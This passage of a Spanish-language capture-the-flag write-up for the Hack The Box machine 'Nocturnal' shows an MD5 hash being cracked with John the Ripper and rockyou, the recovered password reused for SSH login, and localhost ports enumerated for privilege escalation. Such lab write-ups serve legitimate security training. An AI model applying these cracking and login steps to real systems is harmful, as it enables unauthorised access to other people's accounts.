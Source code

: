 ~~~ bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
slowmotionapocalypse (?)     
1g 0:00:00:00 DONE (2025-05-12 18:58) 5.000g/s 18468Kp/s 18468Kc/s 18468KC/s slp312..slow86
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
~~~

Utilizaremos esta contraseña para autenticarnos por el protocolo `ssh` en la máquina víctima

~~~ bash
ssh tobias@nocturnal.htb     
tobias@10.10.11.64\'s password: 
...
Last login: Mon May 12 22:59:18 2025 from 10.10.14.169
tobias@nocturnal:~$ 
~~~

Asignaremos el valor a la variable `TERM` para poder limpiar la pantalla con `Ctrl + L`

~~~ bash
tobias@nocturnal:~$ export TERM=xterm
~~~

En este punto ya podemos ver la flag del usuario sin privilegios

~~~ bash
tobias@nocturnal:~$ cat user.txt
ad5...
~~~
<br>


# Escalada de Privilegios
---
## Internally Open Ports

Una vez estamos dentro de la máquina víctima como el usuario  `tobias`, podemos ejecutar el comando `ss` para listar los puertos abiertos. Nuestro objetivo será identificar servicios que solamente estén disponibles para la máquina, o sea, que el puerto esté en la dirección `127.0.0.1`, también conocido como `localhost`

~~~ bash
tobias@nocturnal:~$ ss -tunl | grep 127.0.0.1
tcp    LISTEN  0       70           127.0.0.1:33060        0.0.0.0:*            
tcp    LISTEN  0       151          127.0.0.1:3306         0.0.0.0:*            
tcp    LISTEN  0       10           127.0.0.1:587          0.0.0.0:*            
tcp    LISTEN  0       4096         127.0.0.1:8080         0.0.0.0:*            
tcp    LISTEN  0       10           127.0.0.1:25           0.0.0.0:*
~~~
